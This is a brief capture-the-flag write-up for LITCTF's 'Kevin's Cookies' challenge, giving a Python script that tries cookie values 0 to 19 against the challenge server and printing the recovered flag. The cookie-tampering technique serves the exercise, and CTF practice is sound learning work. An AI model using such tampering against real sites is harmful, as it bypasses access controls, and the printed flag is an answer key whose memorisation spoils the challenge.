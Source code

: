 ## Kevin’s Cookies

In cookies, there is a key called likeCookie whose value is false. If we change the value to true, we will see the following message.

> Oh silly you. What do you mean you like a true cookie?
> I have 20 cookies numbered from 1 to 20, and all of them are made from super true authentic recipes.

script
```python
import requests

url = "http://litctf.live:31778/"

for i in range(20):
	r = requests.get(url, cookies={"likeCookie":str(i)})
	if "LITCTF{" in r.text:
		print("likeCookie : ", i)
		break
```

```
LITCTF{Bd1mens10n_15_l1k3_sup3r_dup3r_0rzzzz}
```
